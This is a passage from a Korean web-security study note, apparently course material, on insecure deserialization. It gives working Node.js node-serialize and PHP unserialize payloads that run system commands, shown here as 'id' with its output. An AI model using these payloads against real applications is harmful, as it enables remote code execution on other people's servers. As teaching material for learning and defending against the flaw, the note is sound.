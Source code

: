        ```js
       serialize_func_1 = {"test":"_$$ND_FUNC$$_function(){ return 'Hello'; }"}console.log(serialize.unserialize(serialize_func_1));
       /*{ test: [Function (anonymous)]        }*/
       serialize.unserialize(serialize_func_1)['test']()/*'Hello'*/
       ```

       직렬화된 object 값을 역직렬화 시키면 원래 object 형태로 나옴

       

       ```js
       serialize_func_2 = {"test":"_$$ND_FUNC$$_function(){ return 'Hello'; }()"}console.log(serialize.unserialize(serialize_func_2));
       /*{ test: 'Hello' }*/
       ```

       직렬화된 object의 결과에서 내부에 포함된 함수가 역직렬화 과정에서 실행되게 `()`를 붙여 실행하면 역직렬화 과정에서 함수가 실행되어 결과가 반영되는것 을 확인할 수 있음

       

       - 원격 코드 실행 페이로드

       ```js
       var serialize = require('node-serialize');
       serialize_exploit_func = {"test":"_$$ND_FUNC$$_function (){require('child_process').exec('id', function(error, stdout, stderr)
       {console.log(stdout) });}()"
       }
       console.log(serialize.unserialize(serialize_exploit_func));/*uid=1000(dreamhack) gid=1000(dreamhack) groups=1000(dreamhack)*/
       ```

    3. **PHP**

       unserialize에 의해 호출되는 `Magic Methods` 로직의 취약점이 존재하거나, 클래스의 데이터를 조작하여 공격을 연계해야 합니다.

       아래는 클래스의 변수를 조작하여 연계가 가능한 취약한 코드와 공격 예시

       ```js
       <?phpclass Test{  var $func_name = "var_dump";  var $argv = "test";  function __destruct(){    
       call_user_func($this->func_name, $this->argv);  
       }}$obj = new Test();$serialize_Data = 'O:4:"Test":2:{s:9:"func_name";s:6:"system";s:4:"argv";s:2:"id";}';
       $obj = unserialize($serialize_Data);/*string(4) "test"uid=1000(dreamhack) gid=1000(dreamhack) groups=1000(dreamhack)*/
       ```

## PHP

- include

- Wrappers

- extract

- Type Juggling

- Comparison
